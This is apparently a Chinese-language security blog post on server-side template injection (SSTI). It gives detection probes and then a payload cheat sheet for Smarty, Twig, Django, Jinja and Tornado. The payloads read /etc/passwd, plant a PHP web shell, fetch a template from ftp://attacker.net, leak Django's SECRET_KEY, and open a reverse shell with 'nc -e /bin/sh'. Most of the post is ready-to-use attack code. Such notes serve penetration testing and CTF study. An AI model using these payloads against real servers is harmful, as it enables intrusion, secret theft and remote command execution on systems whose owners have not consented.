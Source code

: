 ```yaml
---
title: SSTI模板注入
comments: false
hide: false
date: 2020-12-13 14:58:27
urlname:SSTI
updated:
permalink:
tags:
categories:
---
```




SSTI模板注入

<!-- more -->

# SSTI漏洞

## 什么是模板注入

 SSTI （服务器端模板注入）也是格式化字符串的一个非常好的例子，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是。这种模板不仅存于Python中，PHP中也有不少模板引擎。



## 检测流程

![SSTI流程](SSTI/SSTI流程.png)

首先输入`{{7*7}}`，返回值为`49`则表明存在SSTI

输入`{{system('cat /etc/passwd')}}`如果返回值则表明为**Smarty模板引擎**

输入`{{7*'7'}}`如果返回值是`49`则为**Twig模板引擎**

如果返回值是`7777777`则为**JinJa模板引擎**



---

## 姿势总结

### Smarty

payload：

```
{self::getStreamVariable("file:///etc/passwd")}

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```



### Twig

payload:

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}

<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /etc/passwd") }
```



### Django

payload:

```
{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```



### Jinja

payload:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
//执行命令反弹SHELL
```



### Tornado

payload:

```
http://ip:port/error?msg={{handler.settings}}
```



